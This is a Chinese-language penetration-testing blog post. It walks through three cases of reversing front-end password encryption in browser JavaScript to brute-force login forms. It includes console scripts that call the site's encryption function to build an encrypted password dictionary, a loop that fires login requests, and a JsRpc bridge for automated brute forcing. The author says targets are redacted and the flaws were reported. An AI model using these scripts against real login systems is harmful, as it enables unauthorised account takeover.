# 前端攻防几个小案例

俗话说好记性不如烂笔头，记录一些平时测试的案例，省的下次遇到再重新摸索

info

关键信息均已打码，漏洞均已提交相关 src 修复

- - -

# [](#%E7%99%BB%E9%99%86%E7%82%B91)登陆点 1

常规前端加密，f12 找 password 加密 JS 代码来进行一个爆破

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/10.png)

这里是 password 的关键算法代码，可以看出该 key，猜测是用了 des 加密

寻找 password 多断点，然后在登录框输入密码

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/14.png)

进入调试状态，一步步调试到加密算法这一步

不难猜出，s 是加密后的结果，`object(l["a"])` 是加密函数，e.loginform.password 是输入的密码，后面就是 key 值。

所以我们可以编写一个 js 代码测试，输入的密码为 jfhack

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```js<br>let jiami = Object(l["a"])("jfhack", "6c81d5508f6578f7a6071e70");console.log(jiami);<br>``` |

控制台调用加密函数测试

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/12.png)

用 cyberchef 测试

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/13.png)

可以看到加密是一致的，这里可以直接控制台用 js 来生成字典

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```js<br>let iii = 0;<br>let passdic = new Array();<br>passdic = ['123456','000000','88888']  // 这里写字典<br>for (iii=0;iii<passdic.length;iii++){<br>    let jiami = Object(l["a"])(passdic[iii], "6c81d5508f6578f7a6071e70");<br>    console.log(jiami);<br>}<br>``` |

- - -

# [](#%E7%99%BB%E9%99%86%E7%82%B92)登陆点 2

遇到另外一个系统，密码也加密了，但密码好像加入了时间算法会一直变化。

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/15.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/16.png)

关键代码是：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```js<br>data.password = common.encryptPassword(data.password);<br>``` |

于是编写了如下 JS 代码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```js<br>let jiami =common.encryptPassword('123');jiami<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/17.png)

可以看到 多次输出一样的原生密码，加密后的密码是一直在变化

后面有朋友提示思路，可以编写 JS 触发发包，无需写生成字典的 JS 代码，这个要根据目标登录部分的代码进行修改，参考代码如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```js<br>const array1 = ['a', 'b', 'c'];<br><br>array1.forEach(element => {<br>    // console.log(element)<br>    e.loginForm.password = element<br>    e.$store.dispatch("user/login" , e.loginForm)<br>});<br>``` |

- - -

# [](#jsrpc-%E7%BB%83%E6%89%8B%E6%A1%88%E4%BE%8B)jsrpc 练手案例

看了 [https://www.svenbeast.com/post/kn2fEdp4Q/](https://www.svenbeast.com/post/kn2fEdp4Q/) 的案例后，发现 jsrpc 可以很方便的满足我们 js 加密场景的一些需求，然后便找了一个站进行测试。

先简单抓个包看下密文

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/1.png)

`ec6a6536ca304edf844d1d248a4f08dc`, 去 cmd5 反查下就知道了是 2 次 md5

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/2.png)

这种情况一般直接在 burp 的 intruder 模块中，payload processing 进行处理即可

这里用 jsrpc 来练手，先 f12 找相关的加密函数

小技巧

-   全局搜索登陆点 url
-   全局搜索 password、encrypto 这种关键词

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/3.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/4.png)

其实这里可以看到，目标就是直接调用的 [https://github.com/emn178/js-md5](https://github.com/emn178/js-md5) 库

不管，装作看不见👀，现在目标是通过 jsrpc 实现，只要找到加密函数就行

在控制台，对 js 中的函数和值进行输出，看是否可以得到我们需要的结果

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/5.png)

参考项目 issue [https://github.com/jxhczhl/JsRpc/issues/4](https://github.com/jxhczhl/JsRpc/issues/4) 中的方法可以将局部函数暴露给全局使用，这样就不用卡在断点中去调用函数了 (ps: 举个例，我这个场景比较简单，都不需要断点)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>window.test = md5<br>test(test('1234'));<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/6.png)

此时控制台能正常调用加密函数了，也把目标函数改为全局函数了，接下来控制台直接复制 jsenv.js 的代码，同时本地启动 jsrpc 服务，连接通信

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>var demo = new Hlclient("ws://127.0.0.1:12080/ws?group=zzz&name=hlg");<br>``` |

在控制台注册 js 方法 通过传递函数名调用

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```js<br>demo.regAction("testtttt", function (resolve,param) {<br>    console.log(param);<br>    var testttt123 = test(test(param));<br>    resolve(testttt123);<br>})<br>``` |

访问远程调用

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>http://127.0.0.1:12080/go?group=zzz&name=hlg&action=testtttt&param='1234'<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/9.png)

后续可以参考文章 [https://www.svenbeast.com/post/kn2fEdp4Q/](https://www.svenbeast.com/post/kn2fEdp4Q/) 中的方案，通过本地 mitm 自动替换 payload, 进行爆破

**能不能在控制台直接触发发包**

当然可以，将目标发送请求的部分修改后在控制台执行即可

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```js<br>axios.post("/******/login", {name: "admin",password: test(test('1234'))})<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/js-case/19.png)
